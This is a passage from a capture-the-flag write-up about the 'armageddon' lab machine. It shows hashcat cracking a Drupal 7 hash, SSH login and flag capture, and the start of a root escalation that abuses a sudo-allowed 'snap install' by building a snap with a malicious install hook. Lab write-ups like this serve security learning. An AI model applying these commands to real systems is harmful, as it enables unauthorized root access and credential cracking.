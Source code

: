 I copied the hash to a text file and ran Hashcat on it

```
hashcat -a 0 -m 7900 hash.txt /usr/share/wordlists/rockyou.txt
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt:booboo
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 7900 (Drupal7)
Hash.Target......: $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
```

Upon logging in via SSH, I was able to grab the user flag and also identified an attack vector to privesc

```
ssh brucetherealadmin@$machine_IP                                                                                             
[brucetherealadmin@armageddon ~]$ id
uid=1000(brucetherealadmin) gid=1000(brucetherealadmin) groups=1000(brucetherealadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

[brucetherealadmin@armageddon ~]$ whoami
brucetherealadmin

[brucetherealadmin@armageddon ~]$ pwd
/home/brucetherealadmin

[brucetherealadmin@armageddon ~]$ ls
user.txt
[brucetherealadmin@armageddon ~]$ cat user.txt 
22d*****************************

[brucetherealadmin@armageddon ~]$ sudo -l

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

## Privilege Escalation to Root

This was a very frustrating process and ended up taking far too long for an **easy** box but I ended up learning a lot out of it! [GTFO Bins](https://gtfobins.github.io/gtfobins/snap/) was my starting point for this process. A pre-requisite to generating the package is having fpm and I was able to install it with gem 

```
gem install fpm
fp --version
```

I started by copying and running the default package

```
COMMAND=id
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```
